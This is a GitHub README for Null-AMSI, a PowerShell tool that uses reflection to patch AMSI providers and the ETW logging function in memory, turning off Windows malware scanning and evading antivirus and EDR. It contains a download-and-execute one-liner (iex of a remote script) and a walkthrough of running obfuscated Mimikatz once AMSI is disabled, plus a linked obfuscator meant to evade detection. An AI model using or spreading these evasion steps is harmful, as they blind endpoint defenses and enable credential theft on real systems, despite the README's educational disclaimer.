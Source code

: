 [![Telegram](https://badgen.net/badge/icon/telegram?icon=telegram&label)](https://t.me/MalwareBit)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://github.com/BlackShell256/Null-AMSI/blob/main/LICENSE)
[![LinkedIn](https://img.shields.io/static/v1.svg?label=LinkedIn&message=@anibal&logo=linkedin&style=flat&color=blue)](https://www.linkedin.com/in/anibal-5a3870278/)

# Null-AMSI

## Description
The Null-AMS script is a tool that takes advantage of native PowerShell features and .NET functions using reflection, in order to modify the memory of amsi.dll, to disable its malware scanning and be free to execute scripts and malicious code. This tool is for educational use to understand the role of AMSI in protecting against malware and the implications of bypassing these defense mechanisms.

### AMSI
AMSI (Antimalware Scan Interface) is an application programming interface (API) developed by Microsoft that allows Windows applications and services to interact with third-party antivirus and antimalware software to detect and block malicious activity. AMSI was introduced in Windows 10 and is designed to improve security by allowing code, such as scripts, macros, and other potentially dangerous elements, to be scanned for malicious patterns before executing.

![image](https://github.com/user-attachments/assets/fa9ae24f-cbaa-4340-8010-536ad5949d0f)

### Reflection
Reflection in PowerShell refers to the ability to inspect and manipulate data types (such as classes, methods, properties and fields) at runtime, without needing to know their definition at compile time. This functionality is based on the .NET reflection system, which allows scripts and programs to access type and object metadata, make dynamic method calls, and modify properties or fields through reflection.

Amsi patches usually use Add-Type to add .NET types inside PowerShell, this method for AV or EDR is highly detected.
![image](https://github.com/user-attachments/assets/c03ec594-8b45-4af5-93ec-7f699d401619)

To avoid this, Null-AMSI uses reflection and use native functions, with this we can get the address of GetModuleHandle and GetProcAddress, we can use these functions to patch AMSI without alerting AV/EDR.

### Features
- *Native Memory Manipulation*: Null-AMSI uses functions from the “System.Runtime.InteropServices.Marshal” assembly to manipulate memory avoiding the use of ReadProcessMemory or WriteProcessMemory which are highly scrutinized by security measures.
  
- *All in memory*: The tool works in memory, when using "Add-Type" this function compiles the code into a C# dll, at that time your patch can be highly detected by an AV/EDR, this is avoided with reflection and kept in memory with stealth.
  
- *Effective patch bypass*: In contrast to traditional AMSI evasion techniques, which typically patch AmsiScanBuffer (highly flaged and documented) Null-AMSI patches AMSI providers, which guarantees a higher success rate against AV/EDR engines.

- *Multi-Architecture*: Works for both 32-bit and 64-bit PowerShell, to run in any environment, for this it checks the length in bytes of the IntPtr data type.

- *Evasion in memory modification*: By modifying the memory address permissions of AMSI providers and **EtwEventWrite** using the **VirtualProtect** function, **PAGE_EXECUTE_WRITECOPY** protection is employed, an uncommon configuration that favors evasion of security mechanisms. This protection contributes to the patch's effectiveness by allowing memory modifications to be made in a way that is more difficult for security tools to detect.

### ETW Patching
ETW (Event Tracing for Windows) is Microsoft's real-time event tracing and collection infrastructure for logging, monitoring and analyzing operating system and application events in Windows at the Kernel level. In the context of computer security and threat detection, ETW is a very valuable tool for Antivirus (AV) and Endpoint Detection and Response (EDR) solutions, as it provides detailed information about system activities that may be indicative of malicious behavior. Null-AMSI patches EtwEventWrite (optionally) by returning the execution flow to the next instruction.

## Use

To Use Null-AMSI, run the following commands:

With this command we will execute Null-AMSI in memory 
```
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/sergiovks/Null-AMSI/refs/heads/main/NullAMSI.ps1)
```
For AMSI patching only
```
Invoke-NullAMSI
```
For AMSI and ETW patching
```
Invoke-NullAMSI -etw
```
To get verbose and more information about the tool
```
Invoke-NullAMSI -v
```

### Usage example
1. Run the Null-AMSI tool, I added verbose flags and ETW patch (optional).
![image](https://github.com/user-attachments/assets/6f5ee3f1-0c93-4d23-9388-57135abd6506)

2. Now we can run Mimikatz with amsi disabled, I used an obfuscated version of Mimikatz ([Mimikatz-Obfuscated](https://raw.githubusercontent.com/BlackShell256/Null-AMSI/refs/heads/main/Invoke-Mimikatz.ps1)) with zlib and base64 to avoid the http detection of my Eset Premium AV.
To obfuscate use: https://github.com/BlackShell256/Null-AMSI/blob/main/NullObfuscate.py (python3 NullObfuscate.py -f Invoke-Mimikatz.ps1 -o Obfuscated-Mimikatz.ps1)
![image](https://github.com/user-attachments/assets/caed0aae-ab4e-4d24-8761-52a03fd1a31f)

### Poc Evasion
[Full Video](https://www.linkedin.com/posts/anibal-5a3870278_evasion-bypass-amsi-activity-7264104326703329280-S8Y9?utm_source=share&utm_medium=member_desktop)
![image](https://github.com/user-attachments/assets/6c832166-92b5-446a-893c-273249cd68a8)

### Poc Evasion 2
[Full Video](https://www.linkedin.com/posts/anibal-5a3870278_evasion-bypass-amsi-activity-7264104326703329280-S8Y9?utm_source=share&utm_medium=member_desktop)
![image](https://github.com/user-attachments/assets/c40466b1-6a05-4941-9530-0520723b1fa3)


## Credit

* Some of the Reflection code I learned from Matt Graeber. [X/Twitter](https://x.com/mattifestation)

* Patch by Maor Korkos [X/Twitter](https://x.com/maorkor)

